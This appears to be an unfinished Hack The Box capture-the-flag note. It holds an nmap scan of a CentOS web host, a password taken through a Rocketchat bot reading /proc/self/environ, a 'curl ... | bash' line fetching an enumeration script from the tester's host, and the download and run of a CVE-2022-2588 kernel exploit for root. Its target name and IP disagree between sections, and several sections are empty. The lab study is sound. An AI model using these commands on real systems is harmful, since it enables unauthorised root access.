



# Summary


## about target

tip:  10.129.228.124

hostname:  Reel

Difficulty:  Hard


## about attack

+ http response header, contains domain name.
+ Rocketchat, robot read file; /proc/self/environ, got password.
+ Lpeas enum, found the cve vuln, try revert if failed.


**attack note**

```bash
paper / 10.129.99.51

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp    open   http         Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
443/tcp   open   ssl/http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| tls-alpn:
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
3239/tcp  closed apparenet-ui
15692/tcp closed unknown
25090/tcp closed unknown
34488/tcp closed unknown
34798/tcp closed unknown
37098/tcp closed unknown
39138/tcp closed unknown
41978/tcp closed unknown
43844/tcp closed unknown
53134/tcp closed unknown


---- Enum 


---- Foothold


---- System
curl -L http://10.10.14.14/lpeas.sh | bash | tee dwight-lp.log


```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


# Foothold


# Privesc





https://github.com/Markakd/CVE-2022-2588/tree/e8f095689777f1e95bd65c93eb1ad242b2dbc737


```bash
wget https://github.com/Markakd/CVE-2022-2588/raw/e8f095689777f1e95bd65c93eb1ad242b2dbc737/exp_file_credential

wget http://10.10.14.14/exp_file_credential
chmod +x ./exp_file_credential

./exp_file_credential 
```



exploit successful, but ssh disconnected.

Reconnect and su to user, got root.

```bash
su user
# password is user
```




## proof

```bash


```


